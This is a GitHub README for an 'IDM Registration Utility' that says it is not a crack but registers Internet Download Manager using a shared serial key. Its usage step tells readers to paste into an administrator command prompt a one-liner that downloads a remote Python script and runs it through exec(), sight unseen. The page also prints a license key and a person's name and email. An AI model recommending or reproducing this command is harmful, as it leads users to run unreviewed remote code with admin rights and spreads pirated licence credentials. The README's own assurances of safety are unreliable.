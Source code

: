 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my IDM repository! This IDM is not a cracked or unofficial version, it just registers IDM with a valid key that has been purchased!
Crack and Unofficial versions contain Viruses and trojans, you can download the official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Here's the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in the resources folder.


## Screenshots
Here's a screenshot of what the Registered IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Python on your device.
2. Install IDM letest version form their website.
3. Copy this command, and past it on cmd (Administration required)
```python
pip install requests psutil && python -c "import subprocess, os; subprocess.Popen(['python', '-c', 'import requests, psutil; exec(requests.get(\"https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py\").text)'], cwd=os.getcwd(), shell=True)"




```
4. You are good to go!

---

## Additional Info
Do not use it manually!

```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="musaalif007@gmail.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```
